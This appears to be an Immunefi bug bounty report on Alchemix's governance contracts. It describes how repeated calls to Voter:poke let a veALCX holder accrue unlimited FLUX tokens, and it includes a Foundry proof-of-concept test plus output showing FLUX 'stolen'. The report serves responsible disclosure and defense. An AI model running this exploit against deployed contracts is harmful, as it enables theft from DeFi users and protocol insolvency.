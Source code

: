 
# veALCX holder can mint Unlimited FLUX tokens

Submitted on May 19th 2024 at 21:51:12 UTC by @OxAnmol for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31461

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Protocol insolvency

## Description
## Brief/Intro
`Voter:poke` function can be called multiple times by the veALCX holder and mint unlimited flux.

## Vulnerability Details
The `Voter:poke` function is used to vote again with the same weights, effectively renewing the previous vote.

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195C3-L212C6

```solidity
    function poke(uint256 _tokenId) public {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```
It internally calls _vote functions which is responsible for voting by looping though the provided gauge addresses and it also accrues the flux token for voters by calling Flux:accrueFlux.

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412C4-L455C6

```solidity
function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
       ...SNIP...
       //@audit if we call from poke the we can accrue unlimited FLUX
        IFluxToken(FLUX).accrueFlux(_tokenId);
        uint256 totalPower = (IVotingEscrow(veALCX).balanceOfToken(_tokenId) + _boost);

        for (uint256 i = 0; i < _poolCnt; i++) {
            address _pool = _poolVote[i];
            address _gauge = gauges[_pool];

            require(isAlive[_gauge], "cannot vote for dead gauge");

            uint256 _poolWeight = (_weights[i] * totalPower) / _totalVoteWeight;
            require(votes[_tokenId][_pool] == 0, "already voted for pool");
            require(_poolWeight != 0, "cannot vote with zero weight");
            _updateFor(_gauge);

            poolVote[_tokenId].push(_pool);

            weights[_pool] += _poolWeight;
            votes[_tokenId][_pool] += _poolWeight;
            IBribe(bribes[_gauge]).deposit(uint256(_poolWeight), _tokenId);
            _totalWeight += _poolWeight;
            emit Voted(msg.sender, _pool, _tokenId, _poolWeight);
        }

        if (_totalWeight > 0) IVotingEscrow(veALCX).voting(_tokenId);
        totalWeight += uint256(_totalWeight);
        usedWeights[_tokenId] = uint256(_totalWeight);
        lastVoted[_tokenId] = block.timestamp;

        // Update flux balance of token if boost was used
        if (_boost > 0) {
            IFluxToken(FLUX).updateFlux(_tokenId, _boost);
        }
    }
   ```

If a user has locked their BPT but has never voted, they can call the `poke` function. This function attempts to renew the user's voting, but because the user never voted in the first place there is nothing to renew, it only accrues the flux for the user. The user can call this `poke` function as often as they want to accumulate unlimited flux.

## Impact Details
Users can mint an unlimited amount of FLUX, which could potentially devalue the currency and undermine the logic for boosting and early unlocks.

The FLUX token is a vital component of the system and is expected to hold some tangible value in the open market. Unlimited minting could potentially disrupt its tokenomics and make the protocol's DAO insolvent.

Imagine if such an attack occurs one year after the protocol launch. Users holding millions of dollars worth of FLUX could lose everything due to a price surge.

Based on above stated reason I believe this to be a critical issue.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195C3-L212C6

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188C3-L192C6


## Proof of Concept

Here is a simple test to show how veALCX holder can call `Voter::poke` many times and accrue unlimited flux.

paste the test in `FluxTokenTest.t.sol` and run it. 

```solidity
function testMintUnlimitedFLux() external {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), true);
        //Within the same epoch call poke function as many times as you want to earn unlimited flux
        hevm.startPrank(admin);
        // For example for are doing only 100 iterations
        for (uint256 i = 0; i < 100; i++) {
            voter.poke(tokenId);
        }
        uint256 claimableFluxAfterPoke = flux.getUnclaimedFlux(tokenId);
        flux.claimFlux(tokenId, claimableFluxAfterPoke);
        console2.log("Flux Stolen: ", flux.balanceOf(admin));
        vm.stopPrank();
    }
```

## Output
Here you can see `98.839805301052500300` FLUX is stolen just by calling the   `poke` function 100 times. 

```bash
Ran 1 test for src/test/FluxToken.t.sol:FluxTokenTest
[PASS] testMintUnlimitedFLux() (gas: 2867107)
Logs:
  Flux Stolen:  98839805301052500300

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 93.06s (65.30s CPU time)

Ran 1 test suite in 93.95s (93.06s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)

```